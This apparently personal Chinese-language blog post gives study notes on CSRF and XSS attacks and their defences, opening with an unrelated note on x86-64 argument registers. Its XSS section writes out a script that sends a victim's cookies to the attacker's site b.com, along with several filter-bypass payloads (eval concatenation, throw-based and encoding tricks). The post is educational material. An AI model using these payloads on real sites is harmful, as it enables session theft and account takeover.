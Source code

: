 ```yaml
---
layout:     post
title:      CSRF与XSS攻击与防御
subtitle:   CSRF与XSS攻击与防御
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```


# 64位汇编参数传递
当参数少于7个时，参数从左到右放入rdi,rsi,rdx,rcx,r8,r9
当参数为七个一样时，后面的依次从右至左放入栈中

# CSRF攻击与防御
cross-site request 伪造
1.客户端通过账户密码登录访问网站A
2.网站A验证客户端的账号密码，成功则生成一个sessionID,并返回给客户端存储在浏览器中
3.该客户端tab一个新页面访问了网站B
4.网站B自动触发要求该客户端访问网站A（即在网站B中有链接指向网站A）
5.客户端通过网站B中的连接访问网站A（此时携带有合法的sessionID进行访问网站A的）
6.此时网站A只需检验sessionID是否合法，合法则执行相应的操作

CSRF利用了系统对页面浏览器的信任，XSS则利用了用户对特定网站的信任


# CSRF防御方法：
服务端防御：

1.重要数据交互采用POST进行接收

2.使用验证码作为一种辅助手段，只要是涉及到数据交互就先进行验证码验证

3.验证HTTP Referer字段，该字段记录了此次HTTP请求的来源地址

4.为每个表单添加令牌token并验证（可以使用cookie或者session进行构造保护好客户端的cookie)

CSRF攻击能成功在于攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中抵抗CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于cookie中
我们可以为每一个表单生成一个随机数密钥，并在服务器端建立一个拦截器来验证这个token,如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求

该方法套路：

1.用户访问某个表单页面

2.服务器生成一个Token，放在用户的Session中

3.在页面表单附带上Token参数，攻击者不知道token，所以不能伪造表单

4.用户提交请求后，服务端验证表单中的Token是否与用户Session中的Token一致，一致则为合法请求

如果用户访问了病毒网站，也想带这个cookie去访问的时候，此时，因为病毒网站无法获取第三方cookie的值，所以他也就无法hash这个随机数

# XSS
cross-site script
xss攻击类似于SQL注入攻击，XSS漏洞分为两种，一种是反射型，一种是存储线性
理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞

```
举一个例子：我做了一个超链接http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>
当TOM点击这个链接的时候（假设它已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com b.com是我搭建的网站

存储型的XSS由于攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人

a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码<script>window.open(www.b.com?param="+document.cookie)</script>，保存文章，这时Tom和jack看到了我发布的文章都中招了
```

# XSS防御

1.完善的过滤体系：只允许输入合法的值，其他值一律过滤掉

2.Html encode 
对标签进行转换
```
< 变成 &lt
> 变成 &gt
& 变成 &amp
" 变成 quot
空格变成 &nbsp
```

3.进制javascript读取某些敏感cookie

4.输入内容长度限制

那么上述脚本就会变成文本显示内容

## 过滤空格 

用/代替空格

## 过滤关键字 
大小写绕过
双写关键字
字符拼接利用eval

```
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
利用top
<script>top["al"+"ert"](`xss`);</script>
```

## 编码绕过 
unicode编码绕过

## 过滤双引号 单引号
1.我们可以使用反引号代替单双引号
2.使用unicode编码绕过

## 过滤括号
使用throw绕过
```
;throw'=alert\x281\x29'
```

## 过滤url地址
使用url编码
使用IP，十进制IP
八进制IP
16进制IP
html标签中可用//代替http://
使用中文逗号代替英文逗号
